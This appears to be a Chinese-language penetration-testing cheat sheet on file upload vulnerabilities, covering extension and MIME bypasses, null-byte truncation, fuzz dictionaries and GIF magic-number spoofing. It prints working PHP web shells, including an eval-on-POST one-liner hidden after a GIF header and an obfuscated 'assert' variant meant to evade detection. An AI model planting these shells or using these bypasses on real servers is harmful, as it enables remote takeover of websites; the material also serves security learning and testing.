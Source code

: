 ## 文件上传漏洞

前端策略不做考虑，一般使用`burpsuite`抓包修改绕过。
比如上传一个`.gif`文件，再进行抓包修改成.php 文件上传。

## 绕过方式

首先判断是程序员自己写的上传点，还是编辑器的上传功能。

- 如果是编辑器上传功能，上网查找当前编辑器的漏洞。
- 如果是写的上传点 上传一个正常的 jpg 图片 查看上传点是否可用 上传一个正常的 jpg 图片，burp 拦截，修改后缀为 php (可以检测前端验证 MIME 检测 文件内容检测 后缀检测) 上传一个正常的 jpg 图片，burp 拦截， 00 截断 1.php%00.jpg 判断服务器是什么类型，web 服务器程序，是什么类型，版本号多少 利用解析漏洞。

### MIME 检测 文件头 content-type 字段校验

面对这方式，一般都可以把木马改成.gif 上传。

在使用一句话木马的时候，也可以在前后混淆图片。

#### PHP %00 截断

PHP<5.3.4 时 shell.php%00.jpg 可截断%00 后的内容，配合服务器中间件解析漏洞绕过。

### 文件扩展名黑名单校验

一般情况下都可以使用大小写或者其他方式绕过比如:

```bash
.pHp .AsP .phpphp
```

#### fuzz 脚本

使用[upload-fuzz-dic-builder](https://github.com/c0ny1/upload-fuzz-dic-builder) 工具生成 fuzz 字典，并且导入`burpsuite`中使用是比较方便的，并且生成时给的上传点相关信息越详细，生成的字典越精确。

比如：上传文件名为：test，可以上传后缀为 jpg，后端语言为 php，中间件为 apache，操作系统为 Windows，输出字典名为 upload_filename.txt 的 fuzz 字典

```bash
python upload-fuzz-dic-builder.py -n test -a jpg -l php -m apache --os win -o upload_file.txt
```

### 检测内容是否合法或含有恶意代码

通过开头的文件幻数进行检测：判断文件开头的前 10 个字节，基本就能判断出一个文件的真实类型

文件格式幻数（magic number），它可以用来标记文件或者协议的格式

大部分文件的文件幻数都含有不便于输入的特殊字符，而 gif 图的文件幻数为 GIF89a，可以方便地利用

```php
GIF89a <image binary data> <?php @eval($_POST['shell']);?> <image binary data>
```

也可以使用变量名代替函数

```php
<?php
$a="TR"."Es"."sA";
$b=strtolower($a);
$c=strrev($b);
@$c($_POST['shell']);
?>
```




### 其他资料

[yinwc](https://yinwc.github.io/2020/04/21/%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0%E6%BC%8F%E6%B4%9E%E6%80%BB%E7%BB%93/#/%E5%88%A9%E7%94%A8RTLO)
[SecIN社区](https://www.cnblogs.com/SecIN/p/17055942.html)

